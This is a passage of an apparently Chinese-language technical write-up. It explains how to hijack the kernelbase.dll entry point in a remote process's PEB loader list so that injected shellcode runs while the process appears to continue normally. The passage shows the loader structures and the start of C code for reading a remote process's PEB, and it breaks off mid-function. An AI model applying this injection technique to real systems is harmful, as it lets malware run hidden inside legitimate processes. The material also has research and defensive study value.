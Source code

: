 ```
  3. 调用我们劫持的 kernelbase.dll 入口点
     └─> 实际执行注入的 shellcode
  4. Shellcode 执行
  5. 进程继续正常运行
```

### 关键数据结构

#### 1. PEB (Process Environment Block)

```c
typedef struct _PEB {
    // ... 其他字段
    PPEB_LDR_DATA Ldr;  // 指向 PEB_LDR_DATA 的指针
    // ... 其他字段
} PEB, *PPEB;
```

#### 2. PEB_LDR_DATA

```c
typedef struct _PEB_LDR_DATA_EXT {
    ULONG Length;
    BOOLEAN Initialized;
    HANDLE SsHandle;
    LIST_ENTRY InLoadOrderModuleList;           // 加载顺序链表
    LIST_ENTRY InMemoryOrderModuleList;         // 内存顺序链表
    LIST_ENTRY InInitializationOrderModuleList; // 初始化顺序链表
} PEB_LDR_DATA_EXT, *PPEB_LDR_DATA_EXT;
```

#### 3. LDR_DATA_TABLE_ENTRY

```c
typedef struct _LDR_DATA_TABLE_ENTRY_EXT {
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;              // DLL 基地址
    PVOID EntryPoint;           // DLL 入口点（DllMain）⭐ 劫持目标
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName; // DLL 名称（如 "kernelbase.dll"）
    // ... 其他字段
} LDR_DATA_TABLE_ENTRY_EXT, *PLDR_DATA_TABLE_ENTRY_EXT;
```

### 关键代码

#### 1. 获取远程 PEB

```c
PVOID GetRemotePEB(HANDLE hProcess) {
    PROCESS_BASIC_INFORMATION pbi;
    ULONG returnLength;

    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtQueryInformationProcess NtQueryInformationProcess =
        (pNtQueryInformationProcess)GetProcAddress(hNtdll, "NtQueryInformationProcess");

    NTSTATUS status = NtQueryInformationProcess(
        hProcess,
        ProcessBasicInformation,
        &pbi,
        sizeof(pbi),
        &returnLength
```